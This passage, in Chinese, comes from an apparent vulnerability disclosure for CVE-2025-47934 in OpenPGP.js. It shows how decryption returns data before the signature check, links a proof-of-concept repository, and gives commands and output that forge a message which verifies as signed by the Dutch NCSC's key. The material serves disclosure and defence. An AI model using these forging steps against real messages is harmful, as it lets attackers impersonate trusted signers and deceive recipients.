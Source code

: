 
```
const { data, signatures } = await openpgp.decrypt({
    message,
    verificationKeys: publicKey
    decryptionKeys: privateKey
});
console.log(data); // prints &#34;malicious&#34;

try {
    await signatures[0].verified;
    console.log('Signature is valid'); // prints &#34;Signature is valid&#34;
} catch (e) {}
```

  
  
没有像 那样的应急出口openpgp.verify()，message.getText()可以在验证之前调用。唯一安全的用法是将解密和验证分开，分为两个不同的步骤，verificationKeys第一步不使用参数。  
  
概念验证  
> 从我们的 PoC 存储库下载这些文件。  
  
> https://github.com/codean-labs/pocs/tree/main/CVE-2025-47934%20(OpenPGP.js)  
  
  
如上所示，构建恶意载荷只需获取一条现有的签名消息（必要时移除包装压缩），并附加一个包含恶意文字数据包的压缩数据包即可。为了方便添加任意恶意文本，我们编写了一个小型 Python 脚本 ( )，它可以为您生成数据包头，并打印出经过 ASCII 编码的伪造消息版本：generate_spoofed_message.py  
  

```
$echo&#34;hello world&#34; | gpg -s -z0 > legit_signed_message.pgp
$ python generate_spoofed_message.py legit_signed_message.pgp > spoofed_message.asc
$ node validate_signature.js spoofed_message.asc <(gpg --export -a thomas@codean.io)
Signed message data: malicious
Verified signature by key id d45bb6865e5472ca: Thomas Rinsma <thomas@codean.io>
```

  
  
此外，extract_from_clearsign_and_spoof.py还展示了如何从明文签名的消息中提取签名包，并由此生成伪造消息。以下是荷兰国家网络安全中心 (NCSC) 的说法，完全合法。😉  
  

```
# Extract victim's PGP key and a clear-signed message (security.txt in this case)
$ wget https://www.ncsc.nl/binaries/ncsc/documenten/publicaties/2025/januari/06/pgp-key/pgp.txt
$ wget https://www.ncsc.nl/.well-known/security.txt
# Generate the spoofed message
$ python extract_from_clearsign_and_spoof.py security.txt > spoofed_message.asc
```

  
  
  

```
$ node validate_signature.js spoofed_message.asc pgp.txt
Signed message data: Hello from Codean Labs.
Verified signature by key id cad4ceab247e705f: NCSC-NL 2025 <cert@ncsc.nl>,NCSC-NL 2025 general information <info@ncsc.nl>
```
